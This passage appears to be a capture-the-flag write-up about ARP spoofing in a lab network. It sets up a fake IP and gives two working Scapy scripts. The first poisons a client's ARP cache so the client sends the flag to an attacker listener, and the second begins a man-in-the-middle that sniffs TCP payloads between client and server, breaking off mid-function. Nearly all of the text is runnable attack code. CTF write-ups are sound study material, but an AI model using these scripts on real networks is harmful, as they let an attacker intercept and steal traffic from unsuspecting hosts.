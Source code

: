 First make a fake IP `10.0.0.3` by `ip addr add 10.0.0.3 dev eth0`. Actually, it is `10.0.0.3/32` other than `10.0.0.3/24`.

Then use ARP poisoning to let client send the flag to me.

```py intercept.py
from scapy.all import *
from threading import Thread
import socket
from os import _exit

def send_arp():
    sendp(
        # let the client 10.0.0.2 believe that 10.0.0.3 is at my mac.
        # the mac address is got by `ip addr`
        Ether(dst='ff:ff:ff:ff:ff:ff') / ARP(pdst='10.0.0.2', psrc='10.0.0.3', hwsrc='6a:e6:98:1d:67:d0', op=2),
        iface='eth0'
    )

def recv_flag():
    sock = socket.socket()
    sock.bind(('0.0.0.0', 31337))
    sock.listen()
    while True:
        try:
            connection, _ = sock.accept()
            msg = connection.recv(1024)
            print(msg.decode())
            _exit(0)
        except ConnectionError:
            continue

send_thr = Thread(target=send_arp)
recv_thr = Thread(target=recv_flag)

send_thr.start()
recv_thr.start()
```

# Man-in-the-Middle

There is another way to do use `op=1` for ARP poisoning.

```py maninthemiddle.py
from scapy.all import *
from os import _exit

BROADCAST = 'ff:ff:ff:ff:ff:ff'
MY_MAC = get_if_hwaddr('eth0')

cli_ip = '10.0.0.2'
ser_ip = '10.0.0.3'

def arp_poisoning(src, dst, forge_mac):
    sendp(
        Ether(dst=BROADCAST, src=MY_MAC) /
            ARP(pdst=dst, psrc=src, hwsrc=forge_mac, op=1),
        iface='eth0'
    )

def recv_in_middle(pkt):
    if 'TCP' in pkt and 'Raw' in pkt:
        payload = pkt[Raw].load
        print(f'\nfrom {pkt[IP].src} to {pkt[IP].dst}')
```